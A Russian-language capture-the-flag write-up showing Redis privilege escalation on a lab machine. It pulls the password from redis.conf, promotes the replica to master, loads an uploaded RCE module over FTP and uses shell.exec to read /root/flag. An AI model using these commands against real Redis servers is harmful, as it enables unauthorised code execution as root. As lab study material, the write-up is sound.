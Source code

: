 ## Смотреть прошлый рейтап

После того как мы получили юзера и получили флаг , я увидел что там есть redis.conf

Сразу скачал его себе на комп и грепнул pass
```
└─$ cat redis.conf| grep "pass"
# 2) No password is configured.
# If the master is password protected (using the "requirepass" configuration
# masterauth <master-password>
# resync is enough, just passing the portion of data the replica missed while
# 150k passwords per second against a good box. This means that you should
# use a very strong password otherwise it will be very easy to break.
requirepass NTO_r3d15_p455w0rd
````


Сразу же понял что это пароль от редиса
```
└─$ redis-cli -h 10.10.1.110
10.10.1.110:6379> AUTH NTO_r3d15_p455w0rd
OK
```
Начал думать как мне повысится, погуглил и понял что у меня роль `slave`, что бы повысится до `master` мне нужно было выполнить следующие команды

```
┌──(kali㉿kaliOlymp)-[~]
└─$ redis-cli -h 10.10.1.110
10.10.1.110:6379> AUTH NTO_r3d15_p455w0rd
OK
10.10.1.110:6379> SLAVEOF NO ONE 
OK
10.10.1.110:6379> CONFIG SET masterauth "marcus"
OK
10.10.1.110:6379> CONFIG SET slave-read-only no 
OK
10.10.1.110:6379> CONFIG REWRITE
OK
10.10.1.110:6379> INFO replication 
# Replication
role:master
connected_slaves:0
master_replid:80a7419348cc395265be4d80210c6d96442e4b50
master_replid2:88eb7e990ec42c64f45bd09fe70ea6bb29b8394b
master_repl_offset:0
second_repl_offset:1
repl_backlog_active:0
repl_backlog_size:1048576
repl_backlog_first_byte_offset:0
repl_backlog_histlen:0
10.10.1.110:6379> 
```

После этого я подумал как мне можно выполнять команды, и понял что нужно юзать модули, а что бы их заюзать их сначала нужно импортнуть и загрузить. 
Нашел модуль для выполнения кода (RCE)

И загрузил его через ftp

`put redis_module.so /tmp/redis_module.so`

И в редисе выполнил
```
127.0.0.1:6379> CONFIG SET dir /tmp/
OK
127.0.0.1:6379> CONFIG SET dbfilename redis_module.so
OK
127.0.0.1:6379> MODULE LOAD /tmp/redis_module.so
OK
```
А далее просто 

```
127.0.0.1:6379> shell.exec 'cat /root/flag'
```
